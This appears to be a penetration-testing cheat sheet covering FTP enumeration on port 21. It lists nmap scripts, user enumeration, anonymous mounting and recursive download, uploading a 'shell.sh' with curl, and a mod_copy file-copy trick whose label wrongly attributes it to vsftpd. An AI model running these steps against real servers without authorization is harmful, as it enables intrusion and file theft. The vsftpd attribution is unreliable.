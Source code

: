 ```yaml
---
title: 3. Enumeration - Linux
date: 2024-08-02 11:00:00
categories:
  - Pentesting
  - Linux
tags:
  - Pentesting
  - Windows
  - Linux
toc: true
---
```


---
Step 3 in a penetration test: Enumeration.
Try to find relevant info to enter the target machine.

---


<br>

## Port 21/TCP - FTP
```bash
nmap --script=*ftp* -p21 $IP -oN recon/nmap.ftp

ftp-user-enum.pl -U users.txt -t $IP
```
```bash write permissions
# mount/unmount shares
curlftpfs anonymous@$IP ftp-local-mount-dir/
fusermount -u ftp

# upload files with curl
curl -v -P - 'ftp://username:password@$IP/files/' -T "/var/www/html/shell.sh"

# upload files manually, depending on file type
> ascii
> binary
> put $file
```
```bash no access to view files
quote PASV
```
```mod_copy RCE vsftpd 1.3.5
nc -v $IP 21
site cpfr /my/local/file
site cpto /directory/i-have/access-to
```
```bash download all files recursively
wget -r ftp://anonymous:@$IP
```
